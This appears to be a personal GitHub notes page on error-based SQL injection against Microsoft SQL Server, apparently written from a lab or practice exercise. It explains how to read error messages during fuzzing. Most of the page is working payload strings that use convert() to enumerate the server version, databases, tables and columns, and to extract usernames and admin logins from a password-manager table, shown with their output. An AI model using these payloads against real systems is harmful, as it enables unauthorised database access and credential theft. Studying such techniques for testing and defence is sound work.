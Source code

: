 ### Error-based SQL Injection

#### Fuzzing

Every form is different, but this is an example of one error-based SQLi attack I did.

1. Single quotes in the error message can be confusing when you are yourself using single quotes.  The errors break apart the text *around* your issue and put those parts in single quotes, so this error for the string `test' ` produced this error:

   ```sql
   Unclosed quotation mark after the character string 'test',')'.
   	Incorrect syntax near 'test',')'.
   ```

   This means you have an issue between `test` and `)`, and it omitted your single quote, which is what was producing the error.  From this output we can see there is a parenthesis being inserted after the input in the actual code (because we didn't put a parenthesis in our code).  So we need to insert one to close the parenthesis before we add the comments to cut off the rest of the query.

2. If you get this error with your comment inserted like `test'--`

   ```sql
   Incorrect syntax near 'test'.
   ```

   This means your command is abruptly ending, in other words you completed the first part but it's missing something at the end.

3. If you get this error with your text `test')--`

   ```
   Column name or number of supplied values does not match table definition.
   ```

   Then you have successfully completed the command, now you just need to insert your own commands between the single quote and parenthesis

#### Enumeration with Convert

Error-based SQLi can only show a limited amount of output, so enumeration is pretty slow and tedious.  This can be done with the `convert` command to try to convert text data to int, which produces an error that shows what data was trying to be converted.   When a result is found, on the next iteration, it is added to the previous results in a `not in` list to exclude them from the top match.  

This page details other SQL data types, but I couldn't get the error to show columns that were integer type, it would just give me a general error and no data.  https://www.w3schools.com/sql/sql_datatypes.asp

##### SQL Server Example

The syntax at the start and end of the command will depend on the code, but the stuff in the middle will be the same.  In this case, the format of our commands was `test' SQLCOMMAND )--`

Note:  I inserted the results of these queries after the `--` of the command.  You don't need anything after the `--` in your commands.

###### Show Database Version

```sql
',convert(int,@@version))--Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) 
```

###### Show Current Database

```sql
',convert(int,db_name()))--newsletter
```

###### Show Database process's username

```sql
',convert(int,user_name()))--webapp
```

###### Enumerating Databases

```sql
',convert(int,(select top(1) name from master..sysdatabases)))--master

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master'))))--archive

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master','archive'))))--model

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master','archive','model'))))--msdb

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master','archive','model','msdb'))))--newsletter

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master','archive','model','msdb','newsletter'))))--tempdb

',convert(int,(select top(1) name from master..sysdatabases where name not in ('master','archive','model','msdb','newsletter','tempdb'))))-- No more results, end of query
```

###### Enumerating Tables

Note that when listing a table in a database besides the current one, you just add the database name to the front of information_schema separated by a period.

Current DB

```sql
',convert(int,(select top(1) table_name from information_schema.tables)))--users

',convert(int,(select top(1) table_name from information_schema.tables where table_name not in ('users'))))--  no response, only one table
```

Non-current DB

```sql
',convert(int,(select top(1) table_name from archive.information_schema.tables )))--pmanager

',convert(int,(select top(1) table_name from archive.information_schema.tables where table_name not in ('pmanager'))))--no data
```

###### Enumerating Table Columns

Like enumerating tables, non-current databases are referenced by adding the database name in front of  information_schema separated by a period.

Current DB

```sql
',convert(int,(select top(1) column_name from information_schema.columns where table_name='users')))--user_id

',convert(int,(select top(1) column_name from information_schema.columns where table_name='users' and column_name not in ('user_id'))))--username

',convert(int,(select top(1) column_name from information_schema.columns where table_name='users' and column_name not in ('user_id','username'))))--email

',convert(int,(select top(1) column_name from information_schema.columns where table_name='users' and column_name not in ('user_id','username','email'))))-- no response, only three columns
```

Non-current DB

```sql
',convert(int,(select top(1) column_name from archive.information_schema.columns where table_name='pmanager')))--id

',convert(int,(select top(1) column_name from archive.information_schema.columns where table_name='pmanager' and column_name not in ('id'))))--alogin

',convert(int,(select top(1) column_name from archive.information_schema.columns where table_name='pmanager' and column_name not in ('id','alogin'))))--psw

',convert(int,(select top(1) column_name from archive.information_schema.columns where table_name='pmanager' and column_name not in ('id','alogin','psw'))))--end of columns
```

###### Enumerating Data

Only one column is enumerated in each example.  With non-current databases, reference the table by adding `tablename.dbo.` in front of the table name.

Current DB

```sql
',convert(int,(select top(1) username from users)))--eric

',convert(int,(select top(1) username from users where username not in ('eric'))))--alice

',convert(int,(select top(1) username from users where username not in ('eric','alice'))))--pedro

',convert(int,(select top(1) username from users where username not in ('eric','alice','pedro'))))--admin

',convert(int,(select top(1) username from users where username not in ('eric','alice','pedro','admin'))))-- No response, end of users
```

Non-current DB

```sql
',convert(int,(select top(1) alogin from archive.dbo.pmanager)))--ftpadmin

',convert(int,(select top(1) alogin from archive.dbo.pmanager where alogin not in ('ftpadmin'))))--webadmin

',convert(int,(select top(1) alogin from archive.dbo.pmanager where alogin not in ('ftpadmin','webadmin'))))--administrator

',convert(int,(select top(1) alogin from archive.dbo.pmanager where alogin not in ('ftpadmin','webadmin','administrator'))))--eric

',convert(int,(select top(1) alogin from archive.dbo.pmanager where alogin not in ('ftpadmin','webadmin','administrator','eric'))))--No more results
```

### Links

- This is the page where I got the info to do the SQL Server example above, but also has other examples https://www.exploit-db.com/papers/12975
- This document shows another example of using Convert to extract data:  https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf